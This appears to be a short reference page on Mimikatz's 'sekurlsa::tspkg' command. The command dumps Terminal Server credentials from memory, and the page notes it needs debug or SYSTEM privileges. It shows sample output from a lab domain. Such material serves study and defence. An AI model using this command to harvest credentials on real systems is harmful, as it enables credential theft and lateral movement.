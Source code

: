 # tspkg

`sekurlsa::tspkg` lists TsPkg credentials. This credentials provider is used for Terminal Server Authentication.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::tspkg

Authentication Id : 0 ; 3151880 (00000000:00301808)
Session           : RemoteInteractive from 2
User Name         : m3g9tr0n
Domain            : hacklab
Logon Server      : DC
Logon Time        : 13/10/2021 20:58:08
SID               : S-1-5-21-2725560159-1428537199-2260736313-1730
        tspkg :
```
